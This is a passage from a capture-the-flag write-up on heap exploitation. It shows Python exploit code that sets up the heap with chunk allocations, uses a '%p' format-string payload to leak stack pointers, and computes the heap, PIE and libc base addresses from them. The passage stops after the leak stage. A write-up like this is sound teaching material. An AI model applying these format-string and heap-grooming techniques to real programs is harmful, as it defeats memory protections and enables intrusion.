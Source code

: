 These *primitives* are here to make it incredibly easy to perform operations on the heap of the target, we have one for each function: `alloc` for allocating chunks, `view` for printing chunk contents, and `sice`/`free` for `free()`ing chunks.

Its important to mention that due to the behavior of the `print()` function we cant use the `view` function more than once; since its already hard enough to exploit with the limited slots we have left from one call.

Firstly, we start the binary, and make 4 allocations:

```py
alloc(1, 0x208,'AA')

alloc(7, 0x2000,'AA')

alloc(9, 0x100, 'AAAA')

alloc(11, 0x100, '%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p') # leaky chunk
```

The first allocation exists only to box in allocation '7' such that it will not be consumed - if you cant already tell, '7' will be very important for our exploit to come. 7 is also an `unsorted` bin chunk when free'd, making it able to be re-used with other chunks (this fact is also very important).

 We then make another allocation in '9' which also functions as a "box" so that our chunk will not be consumed and another in '11'.

## Leaks

The chunk in '11' will be passed to `printf` in `print()` and will leak us all the pointers we need from the stack for our exploit.

We can see this here:

```py
sice(7)

sice(9) # tcache

leaks = view(11,'a').strip()
print(leaks.split(b'0x'))
heap_base = (int(b'0x' + leaks.split(b'0x')[8],0)&0xfffffffffffff000) - 0x2000
pie_base = int(b'0x' + leaks.split(b'0x')[5],0) - 0x11b0
libc_base = int(b'0x' + leaks.split(b'0x')[15],0) - 0x270b3
print(f'Heap base: {hex(heap_base)}')
print(f'Pie leak: {hex(pie_base)}')
print(f'Libc base: {hex(libc_base)}')
```

First we free idx's 7 and 9, then we `view` the chunk 11's contents and leak values from the stack, luckily we were able to leak out a heap, PIE, and libc address respectively. This is all the leaks we need.

However this has some undesirable side affects; half of our chunks have become unusable; specifically all odd indexes. This means that all chunks allocated/free'd prior to this have been cut loose; as we have no way to reference them:
